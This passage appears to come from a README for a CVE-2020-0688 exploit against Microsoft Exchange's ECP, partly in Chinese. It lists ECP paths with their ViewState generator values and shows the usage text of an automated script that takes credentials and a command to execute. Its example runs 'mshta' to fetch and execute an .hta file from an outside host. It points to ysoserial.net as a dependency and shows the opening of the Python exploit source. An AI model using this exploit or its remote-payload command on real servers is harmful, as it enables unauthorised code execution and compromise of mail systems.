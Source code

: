 ```bash
 __VIEWSTATEGENERATOR=4466B13F

/ecp/PersonalSettings/Password.aspx?showhelp=false&
__VIEWSTATEGENERATOR=59543DCA

/ecp/SMS/TextMessaging.slab?showhelp=false&
__VIEWSTATEGENERATOR=FD338EE0

/ecp/TroubleShooting/MobileDevices.slab?showhelp=false&
__VIEWSTATEGENERATOR=FD338EE0

/ecp/Customize/Regional.aspx?showhelp=false&
__VIEWSTATEGENERATOR=9097CD08

/ecp/MyGroups/SearchAllGroups.slab?pwmcid=3&ReturnObjectType=1
__VIEWSTATEGENERATOR=FD338EE0

/ecp/Security/BlockOrAllow.aspx?showhelp=false&
__VIEWSTATEGENERATOR=362253EF
```

**全自动（支持加密）**


```bash
CVE-2020-0688_EXP Auto trigger payload

python3 CVE-2020-0688_EXP.py -h  

usage: CVE-2020-0688_EXP.py [-h] -s SERVER -u USER -p PASSWORD -c CMD [-e]  

optional arguments:  
  -h, --help            show this help message and exit  
  -s SERVER, --server ECP Server URL Example: http://ip/owa  
  -u USER, --user USER  login account Example: domain\user  
  -p PASSWORD, --password PASSWORD  
  -c CMD, --cmd CMD     Command u want to execute  
  -e, --encrypt         Encrypt the payload  
example:

python CVE-2020-0688_EXP.py -s https://mail.x.com/ -u user@x.com -p passwd -c "mshta http://1.1.1.1/test.hta"
```

需要把ysoserial.exe 放当前目录

https://github.com/ianxtianxt/ysoserial.net/


```python
# encoding: UTF-8
import requests
import readline
import argparse
import re
import sys
import os
import urllib3
from urllib.parse import urlparse
from urllib.parse import quote
urllib3.disable_warnings()

ysoserial_path = os.path.abspath(os.path.dirname(__file__))+"/ysoserial-1.32/"
session = requests.Session()

def get_value(url, user, pwd):
    print("[*] Tring to login owa...")
```